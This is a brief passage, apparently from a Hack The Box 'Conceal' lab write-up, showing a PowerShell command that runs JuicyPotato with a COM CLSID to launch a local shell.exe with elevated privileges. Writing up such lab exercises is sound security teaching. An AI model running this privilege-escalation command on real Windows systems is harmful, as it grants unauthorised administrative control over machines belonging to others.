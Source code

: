 Finally we execute JuicyPotato to obtain root privileges:

```powershell
./JuicyPotato.exe -t * -l 1337 -p C:\Users\Destitute\Desktop\shell.exe -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```

![root](/assets/images/hackthebox/conceal/root.png)